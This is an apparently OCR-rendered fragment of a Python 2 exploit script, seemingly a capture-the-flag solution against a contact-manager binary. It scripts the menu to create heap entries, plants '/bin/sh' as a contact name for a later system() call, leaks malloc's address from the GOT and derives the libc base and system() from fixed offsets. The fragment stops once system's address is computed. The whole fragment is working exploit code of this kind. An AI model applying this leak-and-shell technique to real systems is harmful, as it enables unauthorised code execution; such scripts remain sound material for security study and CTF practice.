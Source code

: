 ```python
    sendln('BAR1')
    readtil('Phone No: ')
    sendln('0')
    readtil('description: ')
    sendln('100')
    readtil('description:')
    sendln('BLEH')
    
    readtil('>>> ')
    
    # create contact 2
    sendln('1')
    readtil('Name: ')
    sendln('BAR2')
    readtil('Phone No: ')
    sendln('1')
    readtil('description: ')
    sendln('100')
    readtil('description:')
    sendln('BLAH')
    
    readtil('>>> ')
    
    # create contact 3 (used in write)
    sendln('1')
    readtil('Name: ')
    sendln('BAR4')
    readtil('Phone No: ')
    sendln('1')
    readtil('description: ')
    sendln('100')
    readtil('description:')
    sendln('BLAH')
    
    readtil('>>> ')

    # create contact 4 (used as payload for system())
    sendln('1')
    readtil('Name: ')
    sendln('/bin/sh')
    readtil('Phone No: ')
    sendln('1')
    readtil('description: ')
    sendln('100')
    readtil('description:')
    sendln('BLAH')
        
    readtil('>>> ')
    
    # 00064c10 W puts
    # 00075b30 malloc
    # 0004cc40 T print
    
    
    malloc = leak4(0x804b020)
    print "[+] malloc @ " + hex(malloc)
    
    libc = malloc - 0x0075b30
    print "[+] libc @ " + hex(libc)
    
    # 0003fcd0 W system
    system = libc + 0x003fcd0
    
```